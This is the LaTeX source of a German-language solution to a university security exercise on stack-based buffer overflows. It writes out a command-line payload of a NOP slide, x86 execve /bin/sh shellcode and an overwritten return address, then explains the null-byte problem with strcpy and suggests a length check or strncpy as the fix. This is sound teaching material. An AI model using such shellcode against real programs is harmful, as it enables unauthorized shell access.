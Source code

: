 \documentclass[]{scrreprt}
\begin{document}
\section*{Aufgabe 3: Shellcode}
\section*{Aufgabe 4: Stack-Based Buffer Overflow}
\section*{Aufgabe 5:  Smashing the Stack for Fun and Exam Prep}
\subsection*{a)}
\begin{figure}[h]
	\centering
	\texttt{[image: figure/5a]} %
	\caption{Stackframes}
\end{figure}
\subsection*{b)}
Der Kommandozeilenparamter könnte wie folgt aussehen:\newline
\begin{lstlisting}[caption={Kommandozeilenparamter ($\hat{=}$ einer Zeile)},captionpos=b]
\x90\x90\x90\x90\x90\x90\x90\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73
\x68\x68 \x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80\x90\x90\x90\x90
\xEF\xBE\xAD\xDE
\end{lstlisting}
Die Instruktionen ''$\backslash$x90'' dienen hierbei als NOP-slide und als zusätzliches Padding um den Buffer zu überschreiben. Am ende muss die Adresse \texttt{0xDEADBEEF} in Little-Endian stehen. Damit wird die return-Adresse überschrieben und der Shellcode wird dadurch aufgerufen.\newline
Wenn die Adresse des password\_buffers \texttt{0xDEAD0070} lautet, dann wäre dies problematisch aufgrund des 0-Byte, da bei der \texttt{strcpy} Funktion dieses Byte als das Ende eines Strings interpretiert wird. Somit wäre es nicht möglich die return-Adresse vollständig zu überschreiben.
\subsection*{d)}
Um diesen Bug zu fixen, ist es notwendig, vor Zeile 12 des Codes das übergebene Passwort auf die Länge zu überprüfen. Die \texttt{strcpy} Funktion sollte nur dann Ausgeführt werden, wenn die Länge des eingegebenen Passwort $\leq 27$ ist.
Auch ist es möglich, statt \texttt{strcpy}, \texttt{strncpy} zu verwenden.
	
\end{document}
